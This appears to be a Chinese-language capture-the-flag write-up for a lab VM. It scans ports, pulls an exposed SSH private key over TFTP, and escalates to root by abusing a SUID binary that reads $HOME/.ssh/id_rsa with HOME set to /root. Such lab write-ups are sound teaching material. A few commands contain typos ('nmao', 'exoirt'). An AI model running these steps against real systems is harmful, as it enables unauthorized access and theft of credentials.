


主机探活

```
nmap -sn 192.168.56.0/24
```


确定靶机ip：192.168.56.109


端口扫描

```
set ip 192.168.56.109
echo $ip
nmap -sT -p- --min-rate 10000 $ip -oN ./portscan
```


开放了21，22，80端口


提取端口信息

```
set port $(cat ./portscan | grep open | awk -F'/' '{print $1}' | paste -sd,)
```


详细结果扫描

```
sudo nmao -sCV -O -p $port $ip -oN ./detailscan
```


分析结果：

- 21：ftp 允许匿名登录
- 22：ssh
- 80：http


UDP扫描

```
sudo nmap -sU --top-port 20 $ip -oN ./udpscan
```


tftp端口开放或是过滤状态


访问192.168.56.109


出现用户：alexia

并提示id_rsa暴露


目录扫描无结果


匿名登录lftp服务

```
lftp $ip anonymous
ls -al
```


存在index.html，但是没内容

存在.web文件夹，其中存在index.html，对应web首页内容


尝试上传php文件

```
echo '<?php echo 123; ?>' > 1.php
php 1.php
```


上传

```
cd .web
put 1.php
```


访问http://192.168.56.109/1.php

没有解析php代码

```
curl http://192.168.56.109/1.php
```


结合前面的提示，id_rsa暴露，且可能存在tftp服务

```
tftp $ip
get id_rsa
```

获取id_rsa文件


利用私钥文件登录alexia用户

```
chmod 400 id_rsa
ssh alexia@$ip -i id_rsa
```


得到第一个flag


查找suid位

```
find / -perm -4000 2>/dev/null
```


存在showMetheKey文件

```
file /opt/showMetheKey
```



执行该文件

```
/opt/showMetheKey
```


获取用户私钥

对比从tftp中获取的id_rsa，内容一致


将showMetheKey传回本地

```
scp /opt/showMetheKey ra1n3@192.168.56.107:/home/ra1n3/share
```


ida简单查看


查看$HOME/.ssh/id_rsa

那么如果我们将$HOME定义为/root，就可以尝试读取root目录下的id_rsa

```
exoirt HOME=/root
echo $HOME
```



```
/opt/showMetheKey > id_rsa
cat id_rsa
```


成功读取root用户私钥


```
chmod 400 id_rsa
ssh root@127.0.0.1 -i id_rsa
```


登录root用户


得到flag